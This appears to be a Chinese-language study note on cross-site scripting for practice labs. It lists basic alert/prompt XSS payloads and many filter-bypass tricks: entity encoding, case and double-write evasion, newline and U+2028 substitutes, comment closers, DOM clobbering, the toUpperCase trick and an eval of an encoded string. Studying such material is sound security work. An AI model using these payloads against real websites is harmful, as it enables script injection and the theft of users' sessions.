

# XSS-EASY

## 语句

* 可以进行直接跳转的语句

  ```html
  <script>alert(1)</script>
  <a href=javascript:alert(1)>111</a>
  <input value="1" type="button" onclick="alert(1)">
  <input value="1" type="button" onclick=alert(1)> // 这个到底加不加引号...（加上肯定可以）
  
  <iframe src=11 onload=alert(1)>
  <iframe src=11 onmouseover=alert(1)>
  <svg onload=alert(1)>
  ```

* 包含跳转

  ```html
  <ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
  ```

  如level15用到的

  ```html
  https://xss.angelo.org.cn/level15.php?src="level1.php?name=<a href=javascript:alert(1)>xss</a>"
  ```

## 绕过

* 如果源码自带引号

  * 需要使用引号（区分单双引号）进行闭合，还要闭合尖括号

  > 题目源码上用的双引号，但是又把双引号给实体化了，那就应该没有办法闭合了
  >
  > * 也许`%0d`跳到下一行？
  > * 也许可以尝试不闭合，直接在当前标签里面加内容，但是如果是value="xxx"，那也没有用

* 如果过滤了某个关键词

  * 将关键词某个地方添加下划线（更改关键词）
    * 换另外的关键词用
    * 使用命名实体绕过，如`s`可以写成`&#083;` `&#115;`
    * 大小写绕过

  * 将关键词置为空
    * 可以考虑大小写绕过
    * 可以双写绕过
    * 命名实体绕过
    * 换关键词

* 过滤空格
  
  可以考虑`%0a` `%0d`绕过，这种建议在地址栏输入
  
* 过滤了`<` `>`
  
  可以尝试用onclick在原本的标签里添加(因为不能添加标签了)
  
* 检测传上去的是否包含某个关键词

  * 可以将关键词放后面，然后注释掉，如需要`http://`关键词：

    ```
    java&#083;cript:alert(1) // http://
    ```

* 回显部分被隐藏，如`type="hidden"`
  * 在传输的时候，将type更改成可视，如`type="button"`，这个需要onclick等配合
  * 或者添加参数：onload，onerror，onmouseover等
* 网页显示图片的某个信息
  
* 更改图片的信息，造成XSS漏洞
  
* 找不到传输的地方？
  * user-agent
  * cookie
  * referer
  * ...

## 知识链接

1.  [命名实体](https://www.jb51.net/onlineread/htmlchar.htm) (非特殊字符转义后变成 `&#[ASCII码];`）

2.  [html标签](https://www.runoob.com/tags/html-reference.html)
3.  [ng-include](https://www.w3schools.com/angular/ng_ng-include.asp)

# XSS-MEDIUM

## 知识点
* 正则表达式
        [正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)
        [正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)
        [正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

* `<script>`标签不饿能自动闭合

   > `<script>`标签必须要闭合，否则js代码不能执行
   > 只有img， input， link， hr，video，audio能自动闭合

* `__proto__`
    每个对象都会在内部初始化这个属性
    当访问对象的某个属性时，如果不存在这个属性，便会去proto里寻找这个属性。

* replace()特性

    

    ```
    >'11223344'.replace('2',"test")
    "11test23344"
    >'11223344'.replace('2',"$`test")
    "1111test23344"
    >'11223344'.replace('2',"$'test")
    "1123344test23344"
    >'11223344'.replace('2',"$&test")
    "112test23344"
    ```

## 绕过

* 空格被置为空

    `(`将其实例化`&#40;` `&#040;`，还需要`<svg>`等标签将其反实例化。

    ```html
    <svg><script>alert&#40;1)</script>
    ```

* `->`被过滤，无法闭合注释。

    可以尝试使用`--!>`来闭合`<!--`
    
* 过滤了一般注释 如过滤了`<!--` 和`//`

    可以使用 `-->` 来注释

* 换行 (`\r` `\n`)被过滤，又必须要换行的时候（如绕过单行注释）

    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  

    使用方法：先用url编码写进burp，然后在burp里面进行url解码

    

* 过滤`on`开头`=`结尾，如`onclick=`

    因为等号的缘故，可以用空格换行等来绕过

    ```
    onclick
    =
    ```

* 检测`document`的某个元素

  可以用另一个元素进行重名覆盖，将input的name改成action，name的action就覆盖了document的action。

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();
</script>
<!-- payload: javascript:prompt(1)#{"action":"111"} -->
```

* 每一段有字符限制，无法构造完整payload

    ```html
    // payload
    // 在标签里面不能注释，如果标签确实差了一些字符，见第一条
    // 关键词不能用注释分开
    // 括号里可以注释
    // 关键词和后面的括号可以用注释分开
    "><svg a=
    /*
    <!--
    ```

* toUpperCase()

    这个时候一些函数因为被大写了，无法使用，可以尝试使用`src=` 这个参数，去包含自己的hack.js(文件名记得大写)

    这个函数还有一个bug， 就是`ſ`经过toUpperCase()之后会被转换成`s`，可以当`s`被过滤的时候来使用

* 当几乎所有的特殊字符都被过滤（包括`=`），但没有过滤`"` 和`()`

    这个时候可以使用`in`运算符

    >在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。
    >
    >```
    >"(prompt(1))instanceof"
    >"(prompt(1))in"
    >```

* 当你的payload直接被加在`<script>`标签里面的时候，又被屏蔽了关键字

    可以采用编解码加eval的方式在过滤，如：

    ```html
    <script> eval((1354620604).toString(35))(1) </script>
    <!-- <script> prompt(1)</script> -->
    ```

